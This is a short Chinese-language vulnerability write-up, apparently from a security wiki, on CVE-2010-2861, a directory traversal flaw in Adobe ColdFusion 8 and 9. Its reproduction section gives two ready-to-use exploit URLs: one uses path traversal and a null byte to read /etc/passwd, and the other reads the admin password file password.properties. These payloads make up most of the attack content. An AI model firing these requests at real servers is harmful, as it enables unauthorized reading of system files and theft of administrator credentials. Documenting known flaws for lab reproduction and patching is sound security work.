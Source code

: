 <h1>（CVE-2010-2861）Adobe ColdFusion 文件读取漏洞</h1>
<h2>一、漏洞简介</h2>
<p>Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。</p>
<h2>二、漏洞影响</h2>
<p>Adobe ColdFusion 8
<br>
Adobe ColdFusion 9</p>
<h2>三、复现过程</h2>
<p>直接访问<p>
<pre><code>http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en</code></pre>
<p>即可读取文件/etc/passwd：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img1.png"/>
<p>读取后台管理员密码</p>
<pre><code>http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en</code></pre>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img2.png"/>
<h2>参考链接</h2>
<p>https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/</p>
